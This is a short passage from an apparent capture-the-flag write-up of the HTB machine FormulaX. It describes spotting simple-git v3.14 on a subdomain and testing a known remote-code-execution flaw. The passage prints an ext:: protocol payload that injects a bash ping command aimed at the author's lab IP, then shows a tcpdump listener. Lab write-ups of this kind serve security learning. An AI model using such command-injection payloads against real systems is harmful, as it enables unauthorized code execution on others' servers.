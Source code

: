 # Access as www-data

In dev-git-auto-update.chatbot.htb, I can see it's using simple-git v3.14 to clone repositories:

![simple-git used in subdomain](/assets/images/FormulaX/simple-git-used-in-subdomain.png)

Looking for vulnerabilities, I saw [this interesting one](https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221) about RCE using the ext protocol. I will reproduce it and send myself a ping with the payload `ext::bash -c ping% -c% 1% 10.10.15.95 >&2`:

```plaintext
❯ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
